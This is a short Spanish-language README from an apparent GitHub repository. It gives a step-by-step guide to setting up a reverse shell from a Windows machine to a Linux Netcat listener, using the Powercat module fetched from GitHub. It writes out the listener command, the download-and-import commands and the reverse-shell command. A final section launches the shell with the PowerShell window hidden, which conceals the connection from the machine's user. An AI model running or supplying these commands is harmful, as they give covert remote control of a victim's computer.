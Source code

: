 # RemotePowerShells
Repositorio sobre shell remotas.


# Shell Remota entre Linux y Windows

Guía paso a paso para establecer una shell remota entre una máquina Linux y una máquina Windows utilizando Netcat y Powercat.

## En la máquina Linux (Listener)

1. Abre una terminal.
2. Ejecuta el siguiente comando para iniciar un listener con Netcat:
   ```
   bash
   nc -lvp 4444
   ```
   Donde `4444` es el puerto en el que deseas escuchar.

## En la máquina Windows (Conector)

1. Abre PowerShell.
2. Descarga e importa el módulo Powercat con los siguientes comandos:
   ```
   powershell
   Invoke-WebRequest "https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1" -OutFile powercat.ps1
   Import-Module ./powercat.ps1
   ```
3. Conecta tu máquina Windows a la máquina Linux con el siguiente comando:
   ```
   powershell
   powercat -c <ip-address> -p 4444 -ep powershell
   ```
   Donde `<ip-address>` es la dirección IP de tu máquina Linux y `4444` es el puerto que especificaste en el comando Netcat.

Ahora, cuando te conectes desde tu máquina Linux, obtendrás una shell de PowerShell de tu máquina Windows.

### Inicia una shell remota con la ventana de PowerShell oculta con el siguiente comando:
   ```
   powershell
   Start-Process powershell -ArgumentList "-WindowStyle Hidden -Command & {powercat -c <ip-address> -p 4444 -ep powershell}" 
   ```
